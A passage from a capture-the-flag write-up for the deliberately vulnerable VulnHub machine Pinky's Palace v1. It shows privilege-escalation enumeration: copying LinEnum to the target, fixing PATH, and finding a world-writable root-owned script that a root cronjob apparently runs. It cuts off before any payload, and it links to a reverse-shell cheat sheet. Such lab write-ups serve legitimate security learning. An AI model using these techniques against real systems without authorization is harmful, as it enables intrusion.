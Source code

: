 # Privilege escalation ROOT

Well what do we do now? We need to find a vulnerability in software or a file with wrong permission etc. to elevate our privileges to `root`. For that we use the wonderful script `LinEnum`. You can clone this from git: [rebootuser]. After cloning the repository to `/tmp/linenum` we copy the script via `scp` to the `home` directory of pinky.

``` text
root@kali:~# git clone https://github.com/rebootuser/LinEnum.git /tmp/linenum
root@kali:~# scp /tmp/linenum/LinEnum.sh pinky@192.168.0.11:/home/pinky/
pinky@192.168.0.11's password:
LinEnum.sh  100%   37KB   1.3MB/s   00:00
```

After transferring the file we execute `LinEnum.sh`. But wait... something is wrong. If we call the script by: `./LinEnum.sh` nothing happens. Seems like the `user` pinky does not execute the script at all. If we check for `env` or `python` there is nothing. Obviously the executables in `/usr/bin` are missing. But on the other hand we could call `mysql` as user `www-data`. Maybe only the reference is missing. Lets check the `PATH` variable for `/usr/bin`.

``` text
pinky@pinkys-palace:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin::/sbin:/bin
```

Well, indeed the `/usr/bin` entry is missing. We will simply add this entry and check the `PATH` again.

``` text
pinky@pinkys-palace:~$ export PATH=/usr/bin:$PATH
pinky@pinkys-palace:~$ echo $PATH
/usr/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin::/sbin:/bin
```

Now our `LinEnum.sh` should work properly. Lets execute the script with the argument `-t`.

- `-t  Include thorough (lengthy) tests`

``` text
pinky@pinkys-palace:~$ ./LinEnum -t
[...]
World-writable files (excluding /proc):
--w--w--w- 1 root root 0 Apr  1 10:57 /sys/fs/cgroup/memory/cgroup.event_control
-rwxrwxrwx 1 root staff 346 Mar 31 15:15 /usr/local/bin/justincase.py
[...]
```

That looks promising! There is a world-writable file `justincase.py` which is owned by root. We should absolutely make use of it. Lets see if this file is somehow connected to a `cronjob` because backing up regularly right? Lets test if we can use the `cronjob` to `write` something into a file and wait a few seconds/minutes.

``` text
pinky@pinkys-palace:~$ touch /home/pinky/watch.txt
```
Put the following code into `/usr/local/bin/justincase.py` and wait for an possible `cronjob` from `root`.


[VulnHub]: https://www.vulnhub.com/entry/pinkys-palace-v1,225/
[Youtube]: https://www.youtube.com/watch?v=EEgpHGe7euU
[cheat sheet]: https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
[pentestmonkeys]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[dirbusted]: https://tools.kali.org/web-applications/dirbuster
[rebootuser]: https://github.com/rebootuser/LinEnum.git
[stackoverflow]: https://stackoverflow.com/questions/18929149/print-double-quotes-in-shell-programming
[pinkysplanet]: https://pinkysplanet.net/